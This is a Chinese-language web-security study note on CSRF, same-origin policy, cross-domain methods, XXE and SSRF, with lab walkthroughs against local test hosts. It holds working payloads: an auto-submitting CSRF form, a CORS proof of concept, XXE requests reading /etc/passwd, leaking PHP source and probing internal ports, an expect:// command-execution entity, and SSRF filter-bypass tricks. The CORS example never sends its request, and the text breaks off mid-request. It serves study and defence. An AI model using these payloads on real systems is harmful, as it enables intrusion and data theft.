# CSRF

> CSRF漏洞

- 概念:跨站请求伪造(Cross-site request forgery，CSRF)是一种攻击，它强制终端用户在当前对其进行身份验证后的Web应用程序上`执行非本意的操作`。CSRF攻击的着重点在`伪造更改状态的请求`，而`不是盗取数据`，因为攻击者无法查看对伪造请求的响应
- 借助社工的一些帮助(例如通过电子邮件或聊天发送链接)，攻击者可以`诱骗用户执行攻击者选择的操作`。如果受害者是`普通用户`，则成功的CSRF攻击可以`强制用户执行状态更改`的请求，例如转移资金，更改其电子邮件地址等。如果受害者是`管理帐户`CSRF可能会`危及整个Web应用程序`
- 原理:CSRF是一种`欺骗`受害者提交恶意请求的攻击,它`继承了受害者的身份和权限`,代表受害者执行`非本意`,`恶意`的操作
- 关键点:对于大多数站点，浏览器请求`自动发送`与站点关联的所有凭据，例如用户的会话cookie，IP地址，Windows域凭据等.因此，如果用户当前已对该站点进行了身份验证，则该站点将`无法区分`受害者发送的伪造请求和受害者发送的合法请求
- 条件:
  - 登录`受信任网站A`,并在`本地生成Cookie`
  - 在`不登出A`的情况下,`访问危险网站B`

> CSRF的危害和防御

- CSRF漏洞`危害`
  - 攻击者盗用了用户的身份后，以用户的名义发送恶意请求;
  - CSRF的恶意操作:以用户名义发送邮件，发消息，盗取账号，购买商品，虚拟货币转账等等，
  - 造成的问题包括:个人隐私泄露以及财产安全问题。
- CSRF漏洞`防御`
  - 验证Referer字段----如果Referer是`其他网站`的话，就有可能是CSRF攻击，则拒绝该请求.。
  - 添加Token验证----可以在HTTP请求中以参数的形式加入一个随机产生的token，并在服务器端建立一个拦截器来验证这个token，如果请求中`没有token`或者`token内容不正确`，则认为可能是CSRF攻击而拒绝该请求。
  - 二次验证----在转账等`关键操作之前`提供当前`用户的密码`或者`验证码`
  - 用户养成良好的习惯----不要随意点击链接和图片、及时退出长时间不使用的已登录账户、安装合适的安全防护软件
    .

> CSRF和XSS的区别

- 从`原理`的角度
  - XSS是将`恶意的代码插入到html页面`中，当用户浏览页面时，插入的htm!代码会被执行，从而达到最终目的。
  - CSRF是一种`欺骗受害者`提交恶意请求的攻击。代表受害者执行`非本意、恶意`的操作
- 其他角度:
  - 1.CSRF比XSS漏洞危害更高，相对XSS而言较难防御。
  - 2.CSRF可以做到的事情，XSS都可以做到。
  - 3.XSS有局限性，而CSRF没有局限性:
  - 4.XSS针对`客户端`，而CSRF针对`服务端`
  - 5.XSS是`利用合法用户`获取其信息，而CSRF是`伪造成合法用户`发起请求。

> 同源策略

- 定义:如果两个页面的`协议`，`端口`(如果有指定)和`域名`都`相同`，则两个页面`具有相同的源`
- 概况:
  - 同源策略是浏览器的一个`安全功能`，`不同源`的客户端脚本在`没有明确授权`的情况下，不能读写对方资源。
  - 同源策略限制了从同一个源加载的文档或脚本如何与来自另一个源的资源进行交互。
  - 这是一个用于`隔离潜在恶意文件`的重要安全机制。
- 受约束对象:`DOM`,`Cookie`,`第三方插件`以及`XMLHttpRequest`都受到`同源策略`的约束
- 不受约束的对象:
  - 页面中的`链接`，`重定向`以及`表单`提交是不会受到同源策略限制的。
  - 跨域资源的引入是可以的。但是js不能读写加载的内容。如嵌入到页面中的<script>，，<link>，<iframe>等带`src属性`的标签。
- 非同源收到的限制:
  - Cookie、LocalStorage 和 IndexDB 无法读取。
  - DOM 无法获得。
  - AJAX 请求不能发送。

> 跨域

- 概念:受前面所讲的浏览器同源策略的影响，不是同源的脚本`不能操作其他源`下面的对象。想要`操作另一个源下的对象`是就需要`跨域`
  简单的说，我们把`不同域`之间`请求数据`的操作，称为跨域

> document.domain跨域

- `方法`:
  - document.domain跨域(两个页面`一级域名相同`,只是`二级域名不同`,可用该设置共享Cookie)
    - 只能在`父域名`与`子域名`之间使用
    - `存在安全性问题`,当一个站点被攻击以后,另一个站点会引起安全漏洞
    - 只适用于`Cookie`和`iframe`窗口

> JSONP跨域

- 说明:利用`<script>的src不受同源策略约束`实现跨域获取数据
- `Jsonp(SON with Padding)`是json 的一种"使用模式"，可以让网页从别的域名(网站)那获取资料，即跨域读取数据。
- 存在问题:
  - 存在`安全性`问题需要网站双方商议基础token的身份验证
  - 只能是`GET`，不能POST
  - 可能被注入恶意代码，篡改页面内容，可以采用字符串过滤来规避此问题

> CORS跨域

- CORS全称为`跨域资源共享`
- 说明:CORS是一个W3C标准,允许浏览器向跨源服务器发送`XMLHttpRequest`请求
- 利用`javascript`无法控制`http头`的特点,通过目标返回的`http头授权`是否允许跨域访问
- 检测方式:
  - curl https://www.baidu.com -H "Origin:https://qq.com" -I ,检查返回包的`Access-Control-Allow-Origin`字段是否为`https://qq.com
  - bp发送请求包,查看返回包的tips值,当它为null,代表信任任何域


> CORS漏洞利用

- 用于`csrf`跨站请求伪造,发送钓鱼链接,读取用户敏感数据

- 用户点击`buttton`弹出响应信息

- ```html
  <!DOCTYPE html>
  <html>
  <body>
  <center>
      <h2>CORS POC Exploit</h2>
      <h3>Extract SID</h3>
      <div id="demo">
          <button type="button" onclick="cors()">Exploit</button>
          <p>Response will be shown here:</p>
          <pre id="response"></pre>
      </div>
      <script>
          function cors() {
              var xhttp = new XMLHttpRequest();
              xhttp.onreadystatechange = function() {
                  if (this.readyState == 4 && this.status == 200) {
                     // 输出响应内容
                      document.getElementById("response").textContent = this.responseText;
                  }
              };
              // 访问
              xhttp.open("GET", "http://127.0.0.1/csrf.html", true);
              xhttp.withCredentials = true; 
          }
      </script>
  </center>
  </body>
  </html>
  ```

  

------


# 实战

> CSRF(get)


- 进入登录页面修改信息,然后`抓包拦截`


- 直接修改放行http://192.168.100.40:49615//csrfget/csrf_get_edit.php?sex=sunhua&phonenum=1433223&add=666+76&email=sunhua%40pen.com&submit=submit

- 确保`处于登录状态`,然后访问url
- 

- 可以发现修改`成功`!

------

> CSRF(post)

- 提前写好`csrf.html`

- ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <title>csrf</title>
      <script>
          window.onload=function () {
              document.getElementById("submit").click()
          }
      </script>
  
  </head>
  <body>
  <form method="post" action="http://192.168.100.40:49615/csrfpost/csrf_post_edit.php">
      <input type="hidden" name="sex" value="boy111"/>
      <input type="hidden" name="phonenum" value="1234567890"/>
      <input type="hidden" name="add" value="hack111"/>
      <input type="hidden" name="email" value="hack@hack.com"/>
      <input type="hidden" name="submit" value="submit"/>
      <input type="submit" id="submit" value="不是诈骗"/>
  </form>
  </body>
  </html>
  ```

- 直接访问http://127.0.0.1/csrf.html,可以发现被成功修改

- 

------

> CSRF(token)

- 下载插件
- 
- 发送到重放器,修改数据,发送请求




- 可以发现修改成功!

------

> document.domain跨域

- 创建如图树结构的文件
- 

```html
<!sub1.html>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Subdomain 1</title>
    <script>
        // 设置 document.domain
        document.domain = 'localhost';  // 使用 localhost

        function sendMessage() {
            const otherWindow = window.open('http://localhost:8002/sub2.html'); // 使用实际的 URL
            otherWindow.postMessage('Hello from Subdomain 1!', 'http://localhost:8002');
        }

        window.addEventListener('message', (event) => {
            if (event.origin === 'http://localhost:8002') {
                alert('Received message: ' + event.data);
            }
        });
    </script>
</head>
<body>
    <h1>sub1</h1>
    <button onclick="sendMessage()">发送到sub2</button>
</body>
</html>

```

```html
<!sub2.html>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Subdomain 2</title>
    <script>
        // 设置 document.domain
        document.domain = 'localhost';  // 使用 localhost

        window.addEventListener('message', (event) => {
            if (event.origin === 'http://localhost:8001') {
                alert('接收信息: ' + event.data);
            }
        });

        function sendMessage() {
            const otherWindow = window.open('http://localhost:8001/sub1.html'); // 使用实际的 URL
            otherWindow.postMessage('来自sub2!', 'http://localhost:8001');
        }
    </script>
</head>
<body>
    <h1>sub2</h1>
    <button onclick="sendMessage()">发送到sum1</button>
</body>
</html>
```

- 在两个`html`目录下分别开启`8001`和`8002`端口
- 


- 访问http://127.0.0.1:8001/sub1.html




------

> JSONP跨域

- 我使用的是`node.js`

- 

  

```js
//server.js

const express = require('express');
const app = express();

app.get('/api/data', (req, res) => {
  const callback = req.query.callback; // 获取回调函数名称
  const data = { message: '这是jsonp实现的跨域' };
  res.type('application/javascript'); // 设置响应类型
  res.send(`${callback}(${JSON.stringify(data)})`); // 返回JSONP格式
});

app.listen(3000, () => {
  console.log('请访问:http://localhost:3000/api/data?callback=handleData');
});
```

```html
<!index.html>

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>JSONP实现跨域</title>
  <script>
    function handleResponse(data) {
      console.log(data); // 处理返回的数据
      document.body.innerHTML += `<p>${data.message}</p>`;
    }

    function fetchData() {
      const script = document.createElement('script');
      script.src = 'http://localhost:3000/api/data?callback=handleResponse';
      document.body.appendChild(script); // 动态插入script标签
    }
  </script>
</head>
<body onload="fetchData()">
  <h1>JSONP示例</h1>
</body>
</html>

```

- 运行`server.js`,访问http://localhost:3000/api/data?callback=handleData


------

> CORS跨域

- 跟`jsonp`差不多

- ```js
  //server1.js
  
  const express = require('express');
  const cors = require('cors');
  
  const app = express();
  const PORT = 8001;
  
  // 启用 CORS
  app.use(cors());
  
  
  app.get('/api/data', (req, res) => {
      res.json({ message: '你好 CORS!' });
  });
  
  // 启动服务器
  app.listen(PORT, () => {
      console.log(`Server running on http://localhost:${PORT}`);
  });
  ```

  ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <title>CORS Example</title>
  </head>
  <body>
      <h1>CORS 示例</h1>
      <button id="fetchButton">获取数据</button>
      <pre id="output"></pre>
  
      <script>
          document.getElementById('fetchButton').addEventListener('click', () => {
              fetch('http://localhost:8001/api/data', {
                  method: 'GET',
                  headers: {
                      'Content-Type': 'application/json'
                  }
              })
              .then(response => {
                  return response.json();
              })
              .then(data => {
                  document.getElementById('output').textContent = JSON.stringify(data, null, 2);
              })
          });
      </script>
  </body>
  </html>
  ```

  


------


# 知识点

> XML(可扩展标识语言)

- 概念

  - XML是The Extensible Markup Language(可扩展标识语言)的简写
  - XML最初的目的是弥补HTML的不足，后来逐渐用于`网络数据的转换和描述`，`XML`的设计宗旨是`传输数据`,不是显示数据
  - XML在web中的应用已十分广泛。XML是各种应用程序之间`数据传输`最常用的数据格式。

- 与`html`区别

  - `html`是被用来`展示数据`,`xml`是用来`传输数据`

- 语法结构:

  - 分为两部分,一部分是`标签的定义`,一部分是`标签的解释`,标签的解释也成为`DTD`(document type definition)

  - ```DTD
    <?xml version="1.0"?>
    <!DOCTYPE note[>
    <!ELEMENT note (to,from,heading,body)>
    <!ELEMENT from(#PCDATA)>
    <!ELEMENT body (#PCDATA)>
    ]>
    ```

> DTD文档介绍

- 概念:

  - DTD使数据格式之间`按照相同的标准`来`传输`
  - DTD是一种XML`约束模式`语言,用来`解释XML文档`

- 分类:分为`内部DTD文档`和`外部DTD文档`

- 语法结构

  - ```dtd
    //内部dtd文档
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE bookstore [
        <!ELEMENT bookstore (book+)>
        <!ELEMENT book (title, author, year, price)>
        <!ELEMENT title (#PCDATA)>
        <!ELEMENT author (#PCDATA)>
        <!ELEMENT year (#PCDATA)>
        <!ELEMENT price (#PCDATA)>
    ]>
    <bookstore>
        <book>
            <title>XML Developer's Guide</title>
            <author>John Doe</author>
            <year>2023</year>
            <price>29.99</price>
        </book>
        <book>
            <title>Learning XML</title>
            <author>Jane Smith</author>
            <year>2024</year>
            <price>39.99</price>
        </book>
    </bookstore>
    ```

  - ```dtd
    //bookstore.dtd
    <!ELEMENT bookstore (book+)>
    <!ELEMENT book (title, author, year, price)>
    <!ELEMENT title (#PCDATA)>
    <!ELEMENT author (#PCDATA)>
    <!ELEMENT year (#PCDATA)>
    <!ELEMENT price (#PCDATA)>
    ----------------------------------------------
    
    //外部dtd文档
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE bookstore SYSTEM "bookstore.dtd">
    <bookstore>
        <book>
            <title>XML Developer's Guide</title>
            <author>John Doe</author>
            <year>2023</year>
            <price>29.99</price>
        </book>
        <book>
            <title>Learning XML</title>
            <author>Jane Smith</author>
            <year>2024</year>
            <price>39.99</price>
        </book>
    </bookstore>
    
    ```

> XML实体介绍

- 概念:
  - XML语言的`变量`，和PHP、JSP、C语言变量一样，有`变量名`(实体名)、
    `变量值`(实体的值),可以通过`&/%`引用
  - XML实体类型:`普通`实体和`参数`实体，用下表总结两种实体类型:
  - 

> XEE漏洞原理

- XEE漏洞也叫XML外部实体注入,XEE漏洞发生在应用程序`解析xml输入时`,`没有禁止外部实体的加载`,导致可`加载恶意外部文件`
- 漏洞的`产生`:对上传的xml文件`没有进行过滤`,导致可`上传恶意xml文件`
- 漏洞的`危害`:
  - 读取任意文件
  - 执行系统命令
  - 内网端口扫描
  - 攻击内网其它网站
- 漏洞的`防御`和`修复`
  - `禁止使用外部实体`,例如`ibxml_disable_entity_loader(true)`
  - `过滤`用户提交的`xml数据`,防止出现非法内容

> 漏洞利用

- `任意文件读取`

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]>
<name>&xxe;</name>
```

- `远程端口探测`

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "http://ip:探测端口号/test/">]>
<name>&xxe;</name>
```

- `远程命令执行`

```dtd
//前提:php环境中安装了exepect扩展

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "expect://系统命令">]>
<name>&xxe;</name>
```

> SSRF漏洞原理

- SSRF(Server-side Request Forgery, 服务端请求伪造)是一种由`攻击者构造`形成由`服务端发起请求`的安全漏洞。一般情况下，SSRF攻击的`目标`是`从外网无法访问的内部系统`。正是因为它是由`服务端发起`的，所以它能够请求到`与它相连而与外网隔离的内部系统`。
- 存在漏洞位置;
  - 分享:通过URL地址分享网页内容
  - 转码服务
  - 在线翻译
  - 图片加载与下载:通过URL地址加载或下载图片
  - 图片、文章收藏功能
  - 未公开的api实现以及其他调用URL的功能
  - 从URL关键字中寻找
- 危害:
  - 端口扫描
  - 内网web应用指纹识别
  - 攻击内网web应用
  - 读取本地文件
- 修复
  - 限制请求的`端口只能为web端口`，只允许访问HTTP和HTTPS的请求
  - 设置`白名单`，或`限制内网IP`，以防止对内网进行攻击
  - 禁止`30x跳转`
  - 屏蔽返回的详细信息
- 相关`危险函数`

```php
/*

SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取的函数以PHP为例，涉及到的函数有
file get contents() -- file_get_contents是把文件写入字符串，当把url是内网文件的时候，会先去把这个文件的内容读出来再写入，导致了文件读取
fsockopen()-- fsockopen是打开一个网络连接或者Unix套接字连接
curl_exec() --利用方式很多，最常见的是通过fie、dict、gopher这三个协议来进行渗透
```

> SSRF漏洞利用




> SSRF常见的限制和绕过

   1.限制 http://www.aaa.com 域名

- 采用http基本身份认证的绕过方式，即使用@绕过。如http://www.aaa.com@www.bbb.com@www.ccc.com

- 注意:在对@解析域名中，不同的处理函数存在处理差异。如:在PHP的parse url中会识别www.ccc.com，而libcur则识别为www.bbb.com限制请求IP不为内网地

  - 绕过方法:
    采取短网址绕过，站长工具短网址 http://tool.chinaz.com/tools/dwz.aspx，跳转要去的地址
    3.采取特殊域名，如:xip.io可以指向任意域名，即127.0.0.1.xip.io，可解析为127.0.0.1
    4.采取进制转换。如:127.0.0.1 转换成十六进制 0x7f.0.0.1
    5.采取302跳转，使用302跳转地址
    4.采取短地址

# XXE and SSRF

> XEE注入



- 打开`bp`进行抓包
- 构造payload

```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 164
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY content SYSTEM "file:///etc/passwd">
]>
<user><username>&content;</username><password>admin</password></user>
```


> 内部DTD

```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 200
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0"?>
<!DOCTYPE abc [
<!ENTITY test SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
]>
<user><username>&test;</username><password>admin</password></user>
```


- 解密来看看

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

> 内网探测

```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 217
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0"?>
<!DOCTYPE abc [
<!ENTITY test SYSTEM "php://filter/read=convert.base64-encode/resource=http://192.168.100.40:56758/">
]>
<user><username>&test;</username><password>admin</password></user>
```


```html
<!doctype html>
<html lang="en">
<head>
	<meta charset="utf-8" />
	<meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <link rel="shortcut icon" href="img/favicon.png" type="image/x-icon">
	
	<title>XXE-Lab</title>

	<meta content='width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0' name='viewport' />
    <meta name="viewport" content="width=device-width" />

	<link rel="stylesheet" type="text/css" href="css/font.css" />
	<link href="css/bootstrap.min.css" rel="stylesheet" />
	<link href="css/material-bootstrap-wizard.css" rel="stylesheet" />
</head>

<body>
	<div class="image-container set-full-height" style="background-color: #272822;">
	    <!--   Creative Tim Branding   -->
	    <!--   Big container   -->
	    <div class="container" style="width: 970px;">
	        <div class="row">
		        <div class="col-sm-8 col-sm-offset-2">
		            <!--      Wizard container        -->
		            <div class="wizard-container">
		                <div class="card wizard-card" data-color="green" id="wizardProfile">
		                    <form>
		                    	<div class="wizard-header">
		                        	<h3 class="wizard-title">
		                        	   <a href="http://github.com/c0ny1/xxe-lab">XXE-Lab for PHP</a>
		                        	</h3>
									
		                    	</div>
								<div class="wizard-navigation">
									<ul>
			                            <li><a href="#about" data-toggle="tab">tips:</a></li>
			                            <li><a href="javascript:void(0)" ><span style="color:red;" class="msg"></span></a></li>
										<li><a href="javascript:void(0)"></a></li>
			                        </ul>
								</div>

		                        <div class="tab-content">
		                            <div class="tab-pane" id="about">
		                              <div class="row">
		                                	<div class="col-sm-6">
												<div class="input-group" style="margin-left: 30%;">
													<span class="input-group-addon">
														<i class="iconfont icon-icon30" style="font-size:25px;"></i>
													</span>
													<div class="form-group label-floating">
			                                          <label class="control-label">UserName</label>
			                                          <input id="username" name="username" style="width: 200%;" type="text" class="form-control">
			                                        </div>
												</div>
												<div class="input-group" style="margin-left: 30%;">
													<span class="input-group-addon">
														<i class="iconfont icon-mima" style="font-size:25px;"></i>
													</span>
													<div class="form-group label-floating">
													  <label class="control-label">Password</label>
													  <input id="password" name="password" style="width: 200%;" type="password" class="form-control">
													</div>
												</div>
		                                	</div>
		                            	</div>
		                            </div>
		                            
		                            
		                        </div>
		                        <div class="wizard-footer">
		                            <div class="pull-right">
		                                <input type='button' class='btn btn-fill btn-success btn-wd' name='next' value='login' onclick="javascript:doLogin()" />
		                            </div>

		                            <div class="clearfix"></div>
		                        </div>
		                    </form>
		                </div>
		            </div> <!-- wizard container -->
		        </div>
	        </div><!-- end row -->
	    </div> <!--  big container -->

	    <div class="footer">
	        <div class="container text-center">
	             Copyright By <a href="https://etimeci.com">etimeci</a>
	        </div>
	    </div>
	</div>
</body>
<!--   Core JS Files   -->
<script src="js/jquery-2.2.4.min.js" type="text/javascript"></script>
<script src="js/bootstrap.min.js" type="text/javascript"></script>
<script src="js/jquery.bootstrap.js" type="text/javascript"></script>

<!--  Plugin for the Wizard -->
<script src="js/material-bootstrap-wizard.js"></script>

<script src="js/jquery.validate.min.js"></script>
<script type='text/javascript'> 
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
</script>
</html>
```

> 外部DTD


```cmd
//开一个8000端口
python -m http.server 8000
```



```cmd
POST /doLogin.php HTTP/1.1
Host: 192.168.100.40:56758
Content-Length: 260
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
